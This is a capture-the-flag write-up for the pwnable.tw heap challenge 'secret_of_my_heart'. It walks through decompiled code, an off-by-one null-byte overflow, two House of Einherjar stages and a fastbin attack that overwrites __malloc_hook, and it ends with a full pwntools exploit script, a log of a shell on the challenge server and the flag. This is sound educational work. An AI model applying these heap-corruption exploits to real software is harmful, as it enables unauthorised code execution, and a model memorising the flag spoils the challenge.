


secret_of_my_heart: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=123aede7094ecfa8f50b3b34f3b9c754835d4e25, stripped


gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : disabled
RELRO     : Partial


## Intro
The program allows us to add secret, show secrets, delete secrets and exit.


==================================
        Secret of my heart        
==================================
 1. Add a secret                  
 2. show a secret                 
 3. delete a secret               
 4. Exit                          
==================================
Your choice :


Each time the program runs, it randomly mmaps 0x1000 bytes of space in a `rw-p` section.
Each time we add a heart, we specify the heart's name and secret.

We can specify the size of the secret. This size is then used the `malloc()` a chunk on the heap to store the secret.

The heart objects are stored in the mmaped section. A pointer to the heap chunk allocated for the secret is stored within each heart object.

For example, an mmaped section with 2 hearts would look like this:

gdb-peda$ x/100xg 0x1d29d000
0x1d29d000:     0x0000000000000064      0x0000004141414141
0x1d29d010:     0x0000000000000000      0x0000000000000000
0x1d29d020:     0x0000000000000000      0x0000555555757010 <-- ptr to heap chunk
0x1d29d030:     0x00000000000000c8      0x4343434343434343
0x1d29d040:     0x0000000000000000      0x0000000000000000
0x1d29d050:     0x0000000000000000      0x0000555555757080 <-- ptr to heap chunk


Now, let's examine each of the functions in greater detail.

### Add a secret
As mentioned before, when we add a secret, we can specify the size of this secret, allowing us to create chunks of different sizes. (fast chunks, small chunks, and large chunks)

The following is the function responsible for initializing hearts.


__int64 __fastcall initHeart(__int64 mmapOffset, __int64 size_)
{
  __int64 result; // rax@4
  size_t size; // [sp+0h] [bp-20h]@1

  *(_QWORD *)mmapOffset = size_;
  printf("Name of heart :");
  readWrapper((void *)(mmapOffset + 8), 0x20u); // read 0x20 bytes into (mmapOffset+8)
  *(_QWORD *)(mmapOffset + 0x28) = malloc(size);
  if ( !*(_QWORD *)(mmapOffset + 0x28) )
  {
    puts("Allocate Error !");
    exit(0);
  }
  printf("secret of my heart :", 32LL);
  result = *(_QWORD *)(mmapOffset + 0x28) + (signed int)readWrapper(*(void **)(mmapOffset + 0x28), size);  // read size bytes into *secretPtr
  *(_BYTE *)result = 0;  // 1 byte overwrite of next chunk's size
  return result;
}


There are 2 vulnerabilities here. 

**Firstly, the ability to read `0x20` bytes for the name into `mmapOffset+8` allows one to leak the heap pointer that follows.**

**Secondly, if we input `size` bytes of data for the secret and use up all of the space in the heap chunk we `malloc()`'d, a terminating null byte will be appended to our data, but this null byte will overwrite the lsb of the next chunk's size!**

**For example, if we allocate a chunk of size `0xf0` bytes, the chunk's size metadata field will initially read `0x101` because `0xf0+0x10=0x100` and we need to turn on the `prev_inuse` bit. But if the previous chunk has a off-by-one null byte overflow, this size metadata field's last byte will be overwritten with `0x00`, and its size metadata will now**
**read `0x100`,** **which will trick the memory allocator into thinking that its previous chunk is free!!!**

## Show a secret
When we show a secret, the associated heart's name, size and secret are printed. Nothing tricky here. 


int showSecret()
{
  int result; // eax@5
  unsigned int index; // [sp+Ch] [bp-4h]@1

  printf("Index :");
  index = getChoice();
  if ( index > 'c' )
  {
    puts("Out of bound !");
    exit(-2);
  }
  if ( *(_QWORD *)(mmapedSegment + 0x30LL * index + 0x28) )
  {
    printf("Index : %d\n", index);
    printf("Size : %lu\n", *(_QWORD *)(mmapedSegment + 0x30LL * index));
    printf("Name : %s\n", mmapedSegment + 0x30LL * index + 8);
    result = printf("Secret : %s\n", *(_QWORD *)(mmapedSegment + 0x30LL * index + 0x28));
  }
  else
  {
    result = puts("No such heap !");
  }
  return result;
}


## Delete a secret
When a secret is deleted, everything is zero'd out properly, preventing any potential use-after-free scenarios.


__int64 __fastcall freeSecret(__int64 heart)
{
  __int64 result; // rax@1

  *(_QWORD *)heart = 0LL;                       // zero out size
  memset((void *)(heart + 8), 0, 0x20uLL);      // zero out name
  free(*(void **)(heart + 0x28));
  result = heart;
  *(_QWORD *)(heart + 0x28) = 0LL;              // zero out secretPtr
  return result;
}


## Infoleaks
Like we previously discussed, we can get a heap leak if we just provide a name that is `0x20` bytes long and then print out the heart.

Leaking libc, however, is trickier. 

The only way to leak libc is to get chunks A and B to overlap, free B, and then print A.
**The caveat is, the chunk that is free'd has to be a non-fastbin sized chunk, as fastbin chunks don't contain any libc pointers, unlike free small chunks and large chunks.**

To do this, we can use our single NULL byte overflow to perform a House of Einherjar exploit and trick `malloc()` into returning a controlled pointer.

Specifically, we will want it to return the same pointer as another chunk we've allocated so that we have 2 heap chunk pointers pointing to the same address, creating overlapping chunks.

Let's go into more detail on how this will work.

## Stage 1 House of Einherjar
To perform this exploit, we will allocate 3 small fast chunks (A, B, C) followed by 2 small chunks, (D, E), overwrite the `prev_size` and lower byte of the `size` field of D, turning the `prev_inuse` bit off, and then free D so that it coalesces with a fake chunk which coincides with chunk C. 


# allocate 3 fast chunks
addSecret(0x68, "A"*0x20, "A"*0x67)  # A 
addSecret(0x68, "B"*0x20, "B"*0x67)  # B
addSecret(0x68, "C"*0x20, "C"*0x67)  # C
# allocate 2 small chunks
addSecret(0xf0,"D"*0x20, "D"*0xef)   # D
addSecret(0xf0,"E"*0x20, "E"*0xef)   # another small chunk just so free(D) doesn't coalesce w/ top chunk
# free(C)
deleteSecret(2) 

# setup house of einherjar constants
targetChunk = heap_base+0xe0
fakeFDBK  = p64(targetChunk)
fakeFDBK += p64(targetChunk)
fakePrevSize = 0x70
log.info("target merge chunk found at: "+hex(targetChunk))
log.info("crafting fake chunk...") # "fake" chunk in same location as C

# allocate another fast chunk over old C, this time corrupting D->prev_size & D->size
addSecret(0x68, "F"*0x20, fakeFDBK + "F"*(0x68-0x10-0x8)+ p64(fakePrevSize))  # F 
log.success("poisoned NUL byte inserted")


Observe that we actually allocate C, allocate D, then free C and allocate another fast chunk over C with our payload to corrupt D.

We need to do this because we can't overwrite the `prev_size` and `size` fields of D before it is allocated.

After this, we simply free D and it should place a chunk in the unsorted bin that contains libc addresses in its `FD` and `BK` fields. 


gdb-peda$ p main_arena.bins   
$6 = {0x56122ddc60e0, 0x56122ddc60e0, 0x7f9cc8c3db88 <main_arena+104>, 0x7f9cc8c3db88 <main_arena+104>, 0x7f9cc8c3db98 <main_arena+120>

gdb-peda$ x/10xg 0x56122ddc60e0
0x56122ddc60e0: 0x0042424242424242      0x0000000000000171
0x56122ddc60f0: 0x00007f9cc8c3db78      0x00007f9cc8c3db78
0x56122ddc6100: 0x4646464646464646      0x4646464646464646
0x56122ddc6110: 0x4646464646464646      0x4646464646464646



gdb-peda$ x/140xg 0x000055eaee5e9000
0x55eaee5e9000: 0x0000000000000000      0x0000000000000071
0x55eaee5e9010: 0x4141414141414141      0x4141414141414141
0x55eaee5e9020: 0x4141414141414141      0x4141414141414141
0x55eaee5e9030: 0x4141414141414141      0x4141414141414141
0x55eaee5e9040: 0x4141414141414141      0x4141414141414141
0x55eaee5e9050: 0x4141414141414141      0x4141414141414141
0x55eaee5e9060: 0x4141414141414141      0x4141414141414141
0x55eaee5e9070: 0x0041414141414141      0x0000000000000071
0x55eaee5e9080: 0x4242424242424242      0x4242424242424242
0x55eaee5e9090: 0x4242424242424242      0x4242424242424242
0x55eaee5e90a0: 0x4242424242424242      0x4242424242424242
0x55eaee5e90b0: 0x4242424242424242      0x4242424242424242
0x55eaee5e90c0: 0x4242424242424242      0x4242424242424242
0x55eaee5e90d0: 0x4242424242424242      0x4242424242424242
0x55eaee5e90e0: 0x0042424242424242      0x0000000000000171<-- it worked! giant backwards consolidated chunk
0x55eaee5e90f0: 0x00007fc4bf292b78      0x00007fc4bf292b78
0x55eaee5e9100: 0x4646464646464646      0x4646464646464646
0x55eaee5e9110: 0x4646464646464646      0x4646464646464646
0x55eaee5e9120: 0x4646464646464646      0x4646464646464646
0x55eaee5e9130: 0x4646464646464646      0x4646464646464646
0x55eaee5e9140: 0x4646464646464646      0x4646464646464646
0x55eaee5e9150: 0x0000000000000070      0x0000000000000100<-- chunk that was just freed. 0x70 = fake prev size
0x55eaee5e9160: 0x4444444444444444      0x4444444444444444
0x55eaee5e9170: 0x4444444444444444      0x4444444444444444
0x55eaee5e9180: 0x4444444444444444      0x4444444444444444
0x55eaee5e9190: 0x4444444444444444      0x4444444444444444
0x55eaee5e91a0: 0x4444444444444444      0x4444444444444444


Because this heap pointer is also shared by C, thanks to our overlapping chunks, it's a simple matter of printing C again to leak a libc address!

## Stage 2 House of Einherjar
Now, this is where it gets interesting.

So we have a libc leak and a heap leak. Now, how do we get control of RIP?

To do this, we will perform a fastbin attack to get `malloc()` to return a nearly arbitrary pointer.

We will target the `__malloc_hook` pointer, overwrite it with our `one_shot` gadget, and then trigger a memory corruption error to call `one_shot` and get a shell.

***This works because anytime you trigger a memory corruption error, the program will call `alloca()` to print out an error message before bailing out!!!***

In such a fastbin attack, we would overwrite the `FD` pointer of a free'd fastbin chunk so that the next fast chunk we allocate would be a deliberately misaligned pointer at a memory address right above `&__malloc_hook`.


[head]->b->target



gdb-peda$ x/32xg 0x00007f1dafe49aed
0x7f1dafe49aed <_IO_wide_data_0+301>:   0x1dafe48260000000      0x000000000000007f <--- target overwrite address
0x7f1dafe49afd: 0x1dafb0b270000000      0x1dafb0ae5000007f        
0x7f1dafe49b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000 <--- __malloc_hook here

gdb-peda$ p &__malloc_hook
$45 = (void *(**)(size_t, const void *)) 0x7f1dafe49b10 <__malloc_hook>

gdb-peda$ p 0x7f1dafe49b10-0x7f1dafe49afd
$46 = 0x13


However, there is a problem. When we free a fast chunk and place it in its fastbin, its `FD` pointer is either zero'd out, or overwritten w/ a heap pointer to the next fastbin chunk.

And we cannot directly rewrite this pointer after free-ing it, because when chunks are free'd, the referece to that heap chunk is zero'd out properly, as mentioned before.

*(_QWORD *)(heart + 0x28) = 0LL;  // zero out secretPtr
 

Therefore, to overwrite this `FD` pointer, we will need to perform another House of Einherjar attack to get overlapping chunks again.

First, we will place a fast chunk into a fastbin so that we can corrupt its `FD` pointer later.

Then, we will corrupt the `prev_size` and `size` fields of the small chunk which we would like to trick into incorrectly performing a backwards consolidation.


# setup house of einherjar constants
fakePrevSize = 0x190 # p 0x5591273e5250-0x5591273e50c0
payload  = p64(0x0)*30
payload += p64(fakePrevSize)
addSecret(0xf8,"H"*0x20, payload)
log.success("poisoned NUL byte inserted")    


Next, we will recraft the targeted small chunk, an offset into which we would like to merge.
This chunk will be located right before the fast chunk we placed in the fastbin, so that we can overwrite the fast chunk's `FD` pointer.


##re-craft index 1 to prep for the backwards consolidate 
targetChunk = heap_base+0xc0 
fakeFDBK  = p64(targetChunk)
fakeFDBK += p64(targetChunk)
payload  = p64(0x0)*10
payload += fakeFDBK
log.info("target merge chunk found at: "+hex(targetChunk))
log.info("re-crafting chunk B...")
deleteSecret(1)
# recraft index 1->secret
addSecret(0x68,"I"*0x20,payload)  
addSecret(0xf8,"J"*0x20,"J"*0xf7) # buffer to avoid topchunk consolidation.  must be non-fast sized


Right before we free the small chunk with the corrupted `prev_size` and `size` fields, our heap looks like the following.


gdb-peda$ x/120xg 0x000055a08bf33000
0x55a08bf33000: 0x0000000000000000      0x0000000000000071
0x55a08bf33010: 0x4141414141414141      0x4141414141414141
0x55a08bf33020: 0x4141414141414141      0x4141414141414141
0x55a08bf33030: 0x4141414141414141      0x4141414141414141
0x55a08bf33040: 0x4141414141414141      0x4141414141414141
0x55a08bf33050: 0x4141414141414141      0x4141414141414141
0x55a08bf33060: 0x4141414141414141      0x4141414141414141
0x55a08bf33070: 0x0041414141414141      0x0000000000000071 <-- just freed a fast chunk here
0x55a08bf33080: 0x0000000000000000      0x0000000000000000
0x55a08bf33090: 0x0000000000000000      0x0000000000000000
0x55a08bf330a0: 0x0000000000000000      0x0000000000000000
0x55a08bf330b0: 0x0000000000000000      0x0000000000000000
0x55a08bf330c0: 0x0000000000000000      0x0000000000000000 <-- want [B] to merge here when freed.
0x55a08bf330d0: 0x000055a08bf330c0      0x000055a08bf330c0 <-- fake FD and BK pointers to pass safe-unlink check
0x55a08bf330e0: 0x0042424242424200      0x0000000000000071 <-- fastchunk whose FD we want to overwrite
0x55a08bf330f0: 0x0000000000000000      0x4747474747474747 
0x55a08bf33100: 0x4747474747474747      0x4747474747474747
0x55a08bf33110: 0x4747474747474747      0x4747474747474747
0x55a08bf33120: 0x4747474747474747      0x4747474747474747
0x55a08bf33130: 0x4747474747474747      0x4747474747474747
0x55a08bf33140: 0x4747474747474747      0x4747474747474747
0x55a08bf33150: 0x0047474747474747      0x0000000000000101
0x55a08bf33160: 0x0000000000000000      0x0000000000000000
0x55a08bf33170: 0x0000000000000000      0x0000000000000000
0x55a08bf33180: 0x0000000000000000      0x0000000000000000
0x55a08bf33190: 0x0000000000000000      0x0000000000000000
0x55a08bf331a0: 0x0000000000000000      0x0000000000000000
0x55a08bf331b0: 0x0000000000000000      0x0000000000000000
0x55a08bf331c0: 0x0000000000000000      0x0000000000000000
0x55a08bf331d0: 0x0000000000000000      0x0000000000000000
0x55a08bf331e0: 0x0000000000000000      0x0000000000000000
0x55a08bf331f0: 0x0000000000000000      0x0000000000000000
0x55a08bf33200: 0x0000000000000000      0x0000000000000000
0x55a08bf33210: 0x0000000000000000      0x0000000000000000
0x55a08bf33220: 0x0000000000000000      0x0000000000000000
0x55a08bf33230: 0x0000000000000000      0x0000000000000000
0x55a08bf33240: 0x0000000000000000      0x0000000000000000
0x55a08bf33250: 0x0000000000000190      0x0000000000000100 <-- set prevSize = 0x190. null byte overflow size. [B]
0x55a08bf33260: 0x4545454545454545      0x4545454545454545
0x55a08bf33270: 0x4545454545454545      0x4545454545454545
0x55a08bf33280: 0x4545454545454545      0x4545454545454545
0x55a08bf33290: 0x4545454545454545      0x4545454545454545
0x55a08bf332a0: 0x4545454545454545      0x4545454545454545
0x55a08bf332b0: 0x4545454545454545      0x4545454545454545
0x55a08bf332c0: 0x4545454545454545      0x4545454545454545
0x55a08bf332d0: 0x4545454545454545      0x4545454545454545
0x55a08bf332e0: 0x4545454545454545      0x4545454545454545
0x55a08bf332f0: 0x4545454545454545      0x4545454545454545
0x55a08bf33300: 0x4545454545454545      0x4545454545454545
0x55a08bf33310: 0x4545454545454545      0x4545454545454545
0x55a08bf33320: 0x4545454545454545      0x4545454545454545
0x55a08bf33330: 0x4545454545454545      0x4545454545454545
0x55a08bf33340: 0x4545454545454545      0x0045454545454545
0x55a08bf33350: 0x0000000000000000      0x0000000000000101 <-- buffer chunk to avoid consolidation w/top chunk
0x55a08bf33360: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x55a08bf33370: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x55a08bf33380: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x55a08bf33390: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x55a08bf333a0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a
0x55a08bf333b0: 0x4a4a4a4a4a4a4a4a      0x4a4a4a4a4a4a4a4a


After the chunk with the corrupted `size` and `prev_size` fields is free'd, our heap will look like this:


gdb-peda$ x/100xg 0x0000555c5cf47000
0x555c5cf47000: 0x0000000000000000      0x0000000000000071
0x555c5cf47010: 0x4141414141414141      0x4141414141414141
0x555c5cf47020: 0x4141414141414141      0x4141414141414141
0x555c5cf47030: 0x4141414141414141      0x4141414141414141
0x555c5cf47040: 0x4141414141414141      0x4141414141414141
0x555c5cf47050: 0x4141414141414141      0x4141414141414141
0x555c5cf47060: 0x4141414141414141      0x4141414141414141
0x555c5cf47070: 0x0041414141414141      0x0000000000000071
0x555c5cf47080: 0x0000000000000000      0x0000000000000000
0x555c5cf47090: 0x0000000000000000      0x0000000000000000
0x555c5cf470a0: 0x0000000000000000      0x0000000000000000
0x555c5cf470b0: 0x0000000000000000      0x0000000000000000
0x555c5cf470c0: 0x0000000000000000      0x0000000000000291 <-- merge worked!
0x555c5cf470d0: 0x00007efeabdc2b78      0x00007efeabdc2b78
0x555c5cf470e0: 0x0042424242424200      0x0000000000000071
0x555c5cf470f0: 0x0000000000000000      0x4747474747474747 <-- FD ptr @ 0x555c5cf470f0
0x555c5cf47100: 0x4747474747474747      0x4747474747474747
0x555c5cf47110: 0x4747474747474747      0x4747474747474747
0x555c5cf47120: 0x4747474747474747      0x4747474747474747
0x555c5cf47130: 0x4747474747474747      0x4747474747474747
0x555c5cf47140: 0x4747474747474747      0x4747474747474747
0x555c5cf47150: 0x0047474747474747      0x0000000000000101
0x555c5cf47160: 0x0000000000000000      0x0000000000000000
0x555c5cf47170: 0x0000000000000000      0x0000000000000000
0x555c5cf47180: 0x0000000000000000      0x0000000000000000
0x555c5cf47190: 0x0000000000000000      0x0000000000000000
0x555c5cf471a0: 0x0000000000000000      0x0000000000000000
0x555c5cf471b0: 0x0000000000000000      0x0000000000000000
0x555c5cf471c0: 0x0000000000000000      0x0000000000000000
0x555c5cf471d0: 0x0000000000000000      0x0000000000000000
0x555c5cf471e0: 0x0000000000000000      0x0000000000000000
0x555c5cf471f0: 0x0000000000000000      0x0000000000000000
0x555c5cf47200: 0x0000000000000000      0x0000000000000000
0x555c5cf47210: 0x0000000000000000      0x0000000000000000
0x555c5cf47220: 0x0000000000000000      0x0000000000000000
0x555c5cf47230: 0x0000000000000000      0x0000000000000000
0x555c5cf47240: 0x0000000000000000      0x0000000000000000
0x555c5cf47250: 0x0000000000000190      0x0000000000000100
0x555c5cf47260: 0x4545454545454545      0x4545454545454545
0x555c5cf47270: 0x4545454545454545      0x4545454545454545
0x555c5cf47280: 0x4545454545454545      0x4545454545454545
0x555c5cf47290: 0x4545454545454545      0x4545454545454545
0x555c5cf472a0: 0x4545454545454545      0x4545454545454545
0x555c5cf472b0: 0x4545454545454545      0x4545454545454545
0x555c5cf472c0: 0x4545454545454545      0x4545454545454545
0x555c5cf472d0: 0x4545454545454545      0x4545454545454545
0x555c5cf472e0: 0x4545454545454545      0x4545454545454545
0x555c5cf472f0: 0x4545454545454545      0x4545454545454545
0x555c5cf47300: 0x4545454545454545      0x4545454545454545
0x555c5cf47310: 0x4545454545454545      0x4545454545454545


Now, we can simply add another *small* chunk secret whose `malloc()` will know will now return `0x555c5cf470d0`, and overwrite the `FD` pointer in `0x555c5cf470f0` w/`0x7f1dafe49aed`, so that the next fast chunk-sized allocation will pop our corrupted fast chunk off and place our target address, `0x7f1dafe49aed`, at the head of our freelist.


gdb-peda$ x/110xg 0x0000559464654000
0x559464654000: 0x0000000000000000      0x0000000000000071
0x559464654010: 0x4141414141414141      0x4141414141414141
0x559464654020: 0x4141414141414141      0x4141414141414141
0x559464654030: 0x4141414141414141      0x4141414141414141
0x559464654040: 0x4141414141414141      0x4141414141414141
0x559464654050: 0x4141414141414141      0x4141414141414141
0x559464654060: 0x4141414141414141      0x4141414141414141
0x559464654070: 0x0041414141414141      0x0000000000000071
0x559464654080: 0x0000000000000000      0x0000000000000000
0x559464654090: 0x0000000000000000      0x0000000000000000
0x5594646540a0: 0x0000000000000000      0x0000000000000000
0x5594646540b0: 0x0000000000000000      0x0000000000000000
0x5594646540c0: 0x0000000000000000      0x0000000000000101
0x5594646540d0: 0x0000000000000000      0x0000000000000000
0x5594646540e0: 0x0000000000000000      0x0000000000000071
0x5594646540f0: 0x00007f1dafe49aed      0x4747474747474700 <-- corrupted fastChunk->FD!!!
0x559464654100: 0x4747474747474747      0x4747474747474747
0x559464654110: 0x4747474747474747      0x4747474747474747


Finally, the next fast chunk allocation will return a pointer to `0x7f1dafe49aed+0x10` and allow us to overwrite `__malloc_hook`.

Putting everything together, the following was my final exploit script.

## Solution

#!/usr/bin/env python 

from pwn import *
import sys

def addSecret(size,name,secret):
    r.sendline("1")   
    r.recvuntil(":")  
    r.sendline(str(size))
    r.recvuntil(":")  
    r.send(name)
    r.recvuntil(":")  
    r.send(secret)
    r.recvuntil("choice :")

def showSecret(index):
    r.sendline("2")   
    r.recvuntil(":")  
    r.sendline(str(index))
    return r.recvuntil("choice :")

def deleteSecret(index, doRecv = True):
    r.sendline("3")   
    r.recvuntil(":")  
    r.sendline(str(index))
    if doRecv:
        r.recvuntil("choice :")

def secretExit():
    r.sendline("4869")

def exploit(r):
    libc = ELF("./libc_64.so.6")

    log.info("leaking heap...")
    addSecret(0xf8,"A"*0x1f+"Z","B"*0xf7) # 0xf7 to avoid corrupting topchunk->size w/poison NULL byte
    leak = showSecret(0).split("Z")[1][:6].ljust(8,'\0')
    heap_base = u64(leak)-0x10
    log.success("heap base found at: "+hex(heap_base)+"\n\n")
    deleteSecret(0) # zero out mmaped section

    log.info("starting stage 1 House of Einherjar...")
    # allocate 3 fast chunks
    addSecret(0x68, "A"*0x20, "A"*0x67)  # A
    addSecret(0x68, "B"*0x20, "B"*0x67)  # B
    addSecret(0x68, "C"*0x20, "C"*0x67)  # C
    # allocate 2 small chunks
    addSecret(0xf0,"D"*0x20, "D"*0xef)   # D
    addSecret(0xf0,"E"*0x20, "E"*0xef)   # another small chunk just so free(D) doesn't coalesce w/ top chunk
    # free(C)
    deleteSecret(2)   

    # setup house of einherjar constants
    targetChunk = heap_base+0xe0
    fakeFDBK  = p64(targetChunk)
    fakeFDBK += p64(targetChunk)
    fakePrevSize = 0x70
    log.info("target merge chunk found at: "+hex(targetChunk))
    log.info("crafting fake chunk...") # "fake" chunk in same location as C

    # allocate another fast chunk over old C, this time corrupting D->prev_size & D->size
    addSecret(0x68, "F"*0x20, fakeFDBK + "F"*(0x68-0x10-0x8)+ p64(fakePrevSize))  # F 
    log.success("poisoned NUL byte inserted")

    # trigger backwards consolidation of D into F
    deleteSecret(3)
    log.success("merge succeeded!")
    
    libc_leak = u64(showSecret(2).split("Secret : ")[1][:6].ljust(8,'\0'))
    libc_base = libc_leak-0x3c3b78
    malloc_hook  = libc_base+libc.symbols["__malloc_hook"]
    one_shot = libc_base+0xef6c4
    log.success("libc base found at: "+hex(libc_base))
    log.success("__malloc_hook found at: "+hex(malloc_hook))
    log.success("one_shot found at: "+hex(one_shot)+"\n\n")

    log.info("starting stage 2 House of Einherjar...")
    # place a fast chunk into fastbin
    addSecret(0x68,"G"*0x20, "G"*0x67)
    deleteSecret(3)
   
    # setup house of einherjar constants
    fakePrevSize = 0x190 # p 0x5591273e5250-0x5591273e50c0
    payload  = p64(0x0)*30
    payload += p64(fakePrevSize)
    addSecret(0xf8,"H"*0x20, payload)
    log.success("poisoned NUL byte inserted")    

    ##re-craft index 1 to prep for the backwards consolidate 
    targetChunk = heap_base+0xc0 
    fakeFDBK  = p64(targetChunk)
    fakeFDBK += p64(targetChunk)
    payload  = p64(0x0)*10
    payload += fakeFDBK
    log.info("target merge chunk found at: "+hex(targetChunk))
    log.info("re-crafting chunk B...")
    deleteSecret(1)
    # recraft index 1->secret
    addSecret(0x68,"I"*0x20,payload)  
    addSecret(0xf8,"J"*0x20,"J"*0xf7) # buffer to avoid topchunk consolidation.  must be non-fast sized
    deleteSecret(4)
    log.success("merge succeeded!\n\n")

    # corrupt fastchunk->FD 
    log.info("starting fastbin attack...")
    log.info("corrupting FD ptr...")
    payload  = p64(0x0)*3
    payload += p64(0x71) # keep original fastbin size
    payload += p64(malloc_hook-0x30+0xd) # corrupt FD
    addSecret(0xf8, "K"*0x20, payload)   # must be small chunk sized to keep fastbin chunk in freelist
    # pop fastchunk out of bin. move target to head of fastbin
    addSecret(0x68,"L"*0x20, "L"*0x67)
    # overwrite __malloc_hook w/ one_shot
    addSecret(0x68,"M"*0x20, "M"*0x13+p64(one_shot))
    log.success("__malloc_hook overwrite succeeded!")
    # trigger __malloc_hook
    log.info("triggering munmap error...")
    deleteSecret(7, False)
    
    r.interactive()

if __name__ == "__main__":
    log.info("For remote: %s HOST PORT" % sys.argv[0])
    if len(sys.argv) > 1:
        r = remote(sys.argv[1], int(sys.argv[2]))
        exploit(r)
    else:
        r = process(['./secret_of_my_heart'], env={"LD_PRELOAD":""})
        print util.proc.pidof(r)
        pause()
        exploit(r)



➜   secret_of_my_heart python solve.py chall.pwnable.tw 10302
[*] For remote: solve.py HOST PORT
[+] Opening connection to chall.pwnable.tw on port 10302: Done
[*] '/home/vagrant/CTFs/pwnable.tw/secret_of_my_heart/libc_64.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] leaking heap...
[+] heap base found at: 0x55646c131000
    
[*] starting stage 1 House of Einherjar...
[*] target merge chunk found at: 0x55646c1310e0
[*] crafting fake chunk...
[+] poisoned NUL byte inserted
[+] merge succeeded!
[+] libc base found at: 0x7fad4214b000
[+] __malloc_hook found at: 0x7fad4250eb10
[+] one_shot found at: 0x7fad4223a6c4
    
[*] starting stage 2 House of Einherjar...
[+] poisoned NUL byte inserted
[*] target merge chunk found at: 0x55646c1310c0
[*] re-crafting chunk B...
[+] merge succeeded!
    
[*] starting fastbin attack...
[*] corrupting FD ptr...
[+] __malloc_hook overwrite succeeded!
[*] triggering munmap error...
[*] Switching to interactive mode
$ id
uid=1000(secret_of_my_heart) gid=1000(secret_of_my_heart) groups=1000(secret_of_my_heart)
$ cat /home/secret_of_my_heart/flag
FLAG{It_just_4_s3cr3t_on_the_h34p}

